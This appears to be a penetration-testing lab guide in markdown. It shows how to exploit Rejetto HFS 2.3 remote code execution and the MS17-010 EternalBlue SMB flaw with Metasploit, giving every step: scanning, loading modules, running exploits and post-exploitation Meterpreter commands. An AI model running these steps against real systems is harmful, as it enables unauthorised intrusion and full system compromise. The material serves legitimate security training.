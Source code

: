 # Exploiting Windows

## Exploiting a Vulnerable HTTP File Server (HFS)

### Overview

- **HTTP File Server (HFS)**: A web server designed for file and document sharing.
- **Communication**: Typically runs on **TCP port 80** and uses the **HTTP protocol**.
- **Rejetto HFS**: A free, open-source HTTP file server for both **Windows** and **Linux**.
- **Vulnerability**: Version 2.3 of Rejetto HFS is vulnerable to **Remote Code Execution (RCE)**.
- **Exploit Module**: Metasploit (MSF) provides an exploit module to target this vulnerability and gain access to the system running HFS.

### Demo: Exploiting a Vulnerable HTTP File Server

Start the Metasploit service and PostgreSQL database:

```bash
service postgresql start && msfconsole
```

Verify the database connection:

```bash
db_status
```

Create a new workspace for organizing the attack:

```bash
workspace -a HFS
```

Set the target IP address globally:

```bash
setg rhosts [targetIP]
```

We perform an Nmap scan, identifying open ports, services, and the operating system. The scan results are stored directly in the Metasploit database:

```bash
db_nmap -sS -sV -O [targetIP]
```

We search for the **Rejetto HFS** exploit module in Metasploit:

```bash
search type:exploit name:rejetto
```

We use the exploit module for the Rejetto HFS vulnerability:

```bash
use exploit/windows/http/rejetto_hfs_exec
```

Display the options available for this exploit to ensure proper configuration:

```bash
show options
```

Retrieve detailed information about the exploit module:

```bash
info
```

Run the exploit to execute the attack and gain access to the target system:

```bash
run
```

### Post-Exploitation: Meterpreter Session

After a successful exploit, interact with the target system through a Meterpreter session.

Open a shell on the compromised system:

```bash
shell
```

Navigate to the root directory:

```bash
cd /
```

List the contents of the current directory:

```bash
dir
```

Read the content of the flag file:

```bash
type flag.txt
```

### Conclusion

Using Metasploit, we successfully exploited the vulnerable HTTP File Server running on the target system by leveraging the **Rejetto HFS Remote Code Execution exploit**.

# Exploiting Windows MS17-010 SMB Vulnerability

## MS17-010 EternalBlue Exploit

### Overview

- **EternalBlue (MS17-010/CVE-2017-0144)**: A collection of Windows vulnerabilities that allow attackers to remotely execute arbitrary code and gain access to a Windows system and potentially the entire network.
- **Vulnerability**: Exploits a flaw in the **Windows SMBv1 protocol**, allowing specially crafted packets to execute arbitrary commands on the target system.
- **Affected Windows Versions**:
  - Windows Vista, 7, Server 2008, 8.1, Server 2012, 10, Server 2016
- **EternalBlue in Metasploit**:
  - **Auxiliary Module**: Scans systems to check if they are vulnerable to the MS17-010 exploit.
  - **Exploit Module**: Exploits the vulnerability on unpatched systems, providing a privileged Meterpreter session on the target.

## Demo: Exploiting Windows MS17-010 SMB Vulnerability

Start the Metasploit console:

```bash
msfconsole
```

Create a new workspace for the EternalBlue attack:

```bash
workspace -a EternalBlue
```

Perform an Nmap scan to identify open ports and services:

```bash
db_nmap -sS -sV -O [targetIP]
```

### Step 1: Check if Target is Vulnerable

Search for the **EternalBlue auxiliary scanner** in Metasploit:

```bash
search type:auxiliary name:eternalblue
```

Use the auxiliary module to check if the target is vulnerable:

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

Show available options for the module:

```bash
show options
```

Set the target IP address:

```bash
set rhosts [targetIP]
```

Run the scanner to check for vulnerability:

```bash
run
```

If the target is vulnerable, the scan will confirm this.

### Step 2: Exploiting the Vulnerability

Search for the **EternalBlue exploit** in Metasploit:

```bash
search type:exploit name:eternalblue
```

Use the exploit module:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Show the available options for the exploit:

```bash
show options
```

Set the target IP:

```bash
set rhosts [targetIP]
```

Run the exploit to gain access:

```bash
run
```

### Post-Exploitation: Meterpreter Session

Once the exploit is successful, we will have a **Meterpreter session**. We can now interact with the target system.

Get system information:

```bash
sysinfo
```

Check the user privileges:

```bash
getuid
```

If successful, we will have access to the system as **NT AUTHORITY/SYSTEM**.

### Conclusion

Using the **EternalBlue exploit** in Metasploit, we successfully exploited the **MS17-010 SMB vulnerability** on the target system, gaining privileged access via a Meterpreter session.



 

